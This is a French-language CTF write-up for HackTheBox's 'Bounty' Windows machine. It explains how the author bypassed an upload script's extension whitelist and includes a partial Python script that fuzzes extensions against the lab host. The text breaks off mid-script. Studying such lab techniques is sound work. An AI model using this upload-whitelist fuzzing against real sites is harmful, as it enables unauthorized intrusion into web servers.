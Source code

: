 ```yaml
---
title: Solution du CTF Bounty de HackTheBox
date: 2018-10-27 17:11:00
tags: [CTF, HackTheBox]
---
```


Introduction
------------

On continue avec une autre machine de [HackTheBox.eu](https://www.hackthebox.eu/), toujours sous Windows.  

Ce CTF a été intéressant et m'a permis de me pencher sur un cas particulier d'exploitation d'un script d'upload. L'escalade de privilège n'a pas montré de réticences particulières comme vous le verrez par la suite.

Obvious vulnerability is obvious
--------------------------------

Un port 80 ouvert, rien d'intéressant sur le site sauf si on fouille avec un directory buster qui nous trouve un script *transfer.aspx* et un répertoire *uploadedfiles* non lisible (403 pour le listing).  

Le formulaire d'upload présent sur *transfer.aspx* semble disposer d'une whitelist d'extensions (un fichier avec l'extension *.nawak* est refusé).  

On se rend assez vite compte que l'équivalent d'un *basename()* pour Windows est appliqué sur le nom d'un fichier ainsi si on modifie la requête d'upload (par exemple avec ZAP) pour donner le nom de fichier *ratata.aspx/toto.png* on se retrouve avec un *toto.png*. Il en va de même avec *ratata.aspx:toto.png*.  

J'ai essayé de jouer avec les *Alternate Data Streams* mais cela ne m'a amené nul part...  

J'ai alors choisit de brute-forcer les extensions de la whitelist, ce qui m'a cette fois dirigé vers le bon chemin (le dictionnaire utilisé est présent sur *Kali Linux*) :  

```python
import sys
from os.path import basename

import requests
from bs4 import BeautifulSoup

filename = sys.argv[1]
fake_filename = sys.argv[2]

failed = set()
succeed = set()
errored = set()

with open("/usr/share/golismero/wordlist/fuzzdb/Discovery/PredictableRes/raft-large-extensions-lowercase.txt", encoding="utf-8", errors="ignore") as fd:
    for line in fd:
        ext = line.strip()

        fake_filename = sys.argv[2] + ext
        print("Using '{}' as filename".format(fake_filename), end=' ')
        data = {"btnUpload": "Upload"}
        files = {
            #"FileUpload1": (basename(filename), open(filename).read(), "image/png")
            "FileUpload1": (fake_filename, open(filename).read(), "image/png")
        }

        sess = requests.session()
        response = sess.get("http://10.10.10.93/transfer.aspx")
        soup = BeautifulSoup(response.text, "html5lib")
```